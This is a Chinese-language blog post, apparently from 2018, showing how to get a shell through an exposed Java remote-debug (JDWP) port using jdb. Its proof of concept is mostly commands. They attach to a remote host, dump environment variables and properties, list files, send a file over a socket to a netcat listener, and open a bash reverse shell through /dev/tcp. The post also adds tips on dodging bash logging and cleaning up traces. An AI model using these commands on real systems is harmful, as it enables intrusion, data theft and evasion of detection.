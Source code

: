 ```yaml
---
layout: post
title: "jdb getshell"
date: 2018-02-25 20:54:47 +800
categories: 
by: gf
description: 通过 jdb 得到主机权限
---
```

jdb 是 Java 的调试工具，类似 lldb 或者 gdb，不过感觉确实比 lldb 弱一些，但是好歹是支持 eval 的。所以如果一个远程的 jvm 开启了远程 debug，比如加了启动参数：

```
-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=8000
```

那我们可以连接这个远程端口，并且很容易 getshell。

POC：

```bash
# 本地连接远程 jvm
jdb -attach 11.160.195.235:8000
# 看一下有哪些进程
threads
# 随便挂起一个
thread 0x4af8
suspend 0x4af8
step
# 稍等一下就可以看到断点信息
# 随便练练手
print new java.lang.String("Hello")
print java.lang.System.getenv()
print java.lang.System.getProperties()

# 列出某目录下的文件 
print  java.util.Arrays.toString(new java.io.File("/home/admin/").list())
#查看某个文件的大小
print new java.io.File("/home/admin/elephant/target/elephant.tgz").length()
# 把某个文件发送到远程
# 需要开启远程机器的某个端口，比如在我本机(10.65.158.130)运行 nc -lv 8000 > file
print (new java.net.Socket ("10.65.158.130",8000)).getOutputStream().write(java.nio.file.Files.readAllBytes(new java.io.File("/home/admin/elephant/target/elephant.tgz").toPath()));

# 终极大招，反弹 shell
# 不过 bash 这个应用一般都会被管理员加各种 log，所以最好不要这样运行命令，很容易被拆穿。
# 在我本机运行 nc -lv 8000
java.lang.Runtime.getRuntime().exec("/bin/bash,-c,exec 5<>/dev/tcp/10.65.158.130/8000;cat <&5 | while read line; do $line 2>&5 >&5; done".split(",")).waitFor();
# 这时候就可以在我本机运行各种 shell 命令了。

# 最后记得擦屁股，
resume
exit
```


话又说回来，jdb getshell 干什么用呢？貌似除了自宫没任何意义，毕竟没有人会在线上环境开启远程 debug，而且还是公网可访问的。

所以仅供娱乐吧。

